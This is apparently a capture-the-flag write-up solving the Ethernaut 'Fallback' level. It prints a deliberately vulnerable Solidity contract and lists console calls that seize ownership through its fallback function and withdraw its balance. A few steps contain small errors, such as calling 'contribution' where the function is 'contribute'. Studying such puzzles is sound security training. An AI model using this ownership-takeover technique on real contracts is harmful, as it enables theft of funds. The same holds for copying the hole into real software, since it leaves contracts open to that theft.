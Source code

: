 # ethernaut_solutions

=========================

1. Fallback

=========================
    
    pragma solidity ^0.4.18;

    import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

    contract Fallback is Ownable {

    mapping(address => uint) public contributions;

    function Fallback() {
        contributions[msg.sender] = 1000 * (1 ether);
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if(contributions[msg.sender] > contributions[owner]) {
          owner = msg.sender;
        }
    }

    function getContribution() public constant returns (uint) {
        return contributions[msg.sender];
    }

    function withdraw() onlyOwner {
        owner.transfer(this.balance);
    }

    function() payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
            owner = msg.sender;
        }
    }

=========================

###Goal
	
* you claim ownership of the contract
* you reduce its balance to 0

=========================

### Solution

* Make a contribution
    * contract.contribution({value:1})
* Confirm contribution is successful
	* (await contract.getContribution()).toNumber()
* Call the fallback function by sending ether to the contract
	* await sendTransaction({to:instance, value:fromWei(2)})
* Confirm we are now indeed the owner
	* await contract.owner()
* Withdraw our funds
	* contract.withdraw()
